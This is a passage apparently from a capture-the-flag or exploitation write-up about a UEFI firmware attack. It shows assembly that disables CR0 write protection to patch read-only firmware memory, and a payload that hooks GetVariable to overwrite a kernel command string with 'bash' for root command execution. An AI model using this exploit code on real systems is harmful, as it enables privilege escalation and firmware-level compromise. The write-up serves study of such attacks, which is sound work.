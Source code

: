 ```asm
  # ... which is read-only, due to ProtectUefiImageCommon
  mov %cr0,%rax
  push %rax
  and $~0x10000,%rax
  mov %rax,%cr0

  rep movsb

  pop %rax
  mov %rax,%cr0
```

And the payload?
```asm
sysctl_run_command = 0xffffffff824a9360

payload:
  mov (%rsp),%rax

  test %rax,%rax
  jns preboot

  # memcpy(sysctl_run_command, "bash", 4)
  push %rdi
  push %rsi
  push %rcx
  mov $sysctl_run_command,%rdi
  lea s_bash(%rip),%rsi
  mov $(s_bash_end - s_bash),%rcx
  rep movsb
  pop %rcx
  pop %rsi
  pop %rdi

preboot:
  mov orig_getvariable(%rip),%rax
  push %rax
  ret

orig_getvariable:
  .quad 0

s_bash:
  .ascii "bash"
s_bash_end:

payload_end:
```

## Dumping the flash
